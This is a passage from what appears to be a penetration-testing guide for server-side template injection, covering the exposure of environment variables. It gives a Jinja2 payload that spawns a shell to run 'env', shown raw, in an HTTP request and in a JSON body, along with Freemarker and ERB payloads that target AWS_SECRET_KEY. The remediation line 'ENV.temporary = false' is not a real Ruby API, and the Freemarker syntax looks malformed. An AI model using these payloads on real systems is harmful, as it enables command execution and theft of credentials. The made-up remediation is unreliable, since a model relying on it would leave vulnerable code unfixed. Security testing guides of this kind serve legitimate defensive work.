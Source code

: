 ### 5. Test for Environment Variable Exposure

**Objective**: Check if template injection exposes sensitive environment variables.

**Steps**:
1. Inject env variable payloads:
   - Test (Jinja2): `{{''.__class__.__mro__[1].__subclasses__()[407]('env', shell=True, stdout=-1).communicate()}}`
   - Use Burp:
     ```http
     GET /profile?name={{''.__class__.__mro__[1].__subclasses__()[407]('env',shell=True,stdout=-1).communicate()}} HTTP/1.1
     Host: example.com
     ```
2. Check responses:
   - Look for variables (e.g., `AWS_SECRET_KEY`).
   - Test: `${"java.lang.System"::getenv("AWS_SECRET_KEY")}` (Freemarker).
3. Test specific variables:
   - Try: `PATH`, `DATABASE_URL`.
4. Use Postman for APIs:
   - Send: `{"name": "{{''.__class__.__mro__[1].__subclasses__()[407]('env',shell=True,stdout=-1).communicate()}}"}`.

**Example Vulnerable Code (Ruby/ERB)**:
```ruby
require 'erb'
template = ERB.new(params[:template])
puts template.result
```
Test: `<%= ENV['AWS_SECRET_KEY'] %>`
Result: Exposes `AWS_SECRET_KEY`.

**Example Secure Code (Ruby/ERB)**:
```ruby
require 'erb'
template = ERB.new("Hello, <%= name %>")
puts template.result_with_hash(name: ERB::Util.html_escape(params[:name]))
```
Test: No exposure.

**Remediation**:
- Limit env access:
  ```ruby
  ENV.temporary = false
  ```
- Escape input:
  ```ruby
  name = CGI.escapeHTML(params[:name])
  ```

**Tip**: Save variable exposure evidence in a report.

### 6. Test for Filter Bypass

**Objective**: Verify if template engine filters can be bypassed.

